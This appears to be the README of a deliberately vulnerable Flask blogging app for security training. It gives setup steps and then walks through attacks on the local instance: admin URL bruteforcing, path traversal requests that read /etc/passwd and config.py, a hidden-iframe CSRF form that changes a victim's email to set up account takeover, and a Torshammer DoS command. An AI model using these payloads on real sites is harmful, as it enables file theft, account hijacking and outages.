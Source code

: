 # Setup
- For Linux.
- Download Python 3.6+ version and install.
- Go inside the project directory and open in terminal.
- Follow steps to create a virtual environment in your system (optional) 
    - Run command `pip install virtualenv` to install virtual package manager
    - Make a virtual environment using command `virtualenv env`
    - Now activate your virtual environment: `source env/bin/activate`
    
- Install all project dependencies: `pip install -r requirements.txt` or `pip3 install -r requirements.txt`
- Finally, run application: `python app.py` or  `python3 app.py`

<br>

# Insecure Application

## 1. Broken access control and priviledge escalation due to improper authorization:
1. Attacker finds the admin login page using URL traversal bruteforcing.
Attacker has a list of popular API endpoints.<br>
They will then try to access the endpoints. And will gain access when they log in as user and hit the endpoint.
```
python3 bruteforce-url.py
/admin 200
/admin/ 200
/login 200
/user/login 405
```

2. Attacker logs in as a normal user and then tries to access admin page. Due to improper authorization, attacker is granted access.

## 2. Sensitive data access
All the profile pictures are stored on the server. The webpage sends a POST request to fetch the picture. The attacker exploits this. He can send mallicious file name in the request, like "../../../../../../../ect/passwd" or "../../config.py" 

Attacker can inspect the update-profile page to learn the working of the API call that fetches the profile picture; then send requests containing malicious filename.

```
This will return  profile picture of user="user001"

POST http://127.0.0.1:5000/profile_picture
Content-Type: application/json

{
    "picture_name": "user001"
}

###
This will return etc/passwd file 

POST http://127.0.0.1:5000/profile_picture
Content-Type: application/json

{
    "picture_name": "../../../../../../../../../etc/passwd"
}

###
This will return config.py file of the application.

POST http://127.0.0.1:5000/profile_picture
Content-Type: application/json

{
    "picture_name": "../../config.py"
}
```

## 3. Unauthorised Access Gaining of Account 
An attacker can go through all the APIs used by the Blogging application and try to find vulnerabilities. Here, they will find an API which is being used to update profile details of another user. Generally, it is a common model of applications that they tend to update all details of a user using the same update API. After finding the endpoint using the browser's network monitor and seeing the request & response body structure, they can move on to find exploits. 

Creating a hidden form that exploits the API that updates the user profile. Attacker places the form in the blog's content; whenever a user clicks on the button, its email is changed. Later attacker can use the forgot password feature to change the password.

Attacker can inspect the update-profile page to learn the working of the API call; then create a fake HTML form with attackers details.
```
<style>
    .hide { position:absolute; top:-1px; left:-1px; width:1px; height:1px; }
</style>
  
<iframe name="hiddenFrame" class="hide"></iframe>
  
<form action="/user/update" method="post" target="hiddenFrame">
    <input type="text" name="email" id="update-email" value="srtkrwt@gmail.com" style="display: none;"><br>
    <button type="submit" id="signup-button">Check out this video!!</button>
</form>
```
After updating the email address, the attacker will simply use the forgot password feature and then reset using the link, which they will recieve in their Mail.



## 4. Denial Of Service attack
Attacker can DOS the server, this makes the services unavailable the the normal users.
We used Torshammer to perform the DOS attack.<br>
`python2 torshammer.py -t 127.0.0.1 -p 5000` 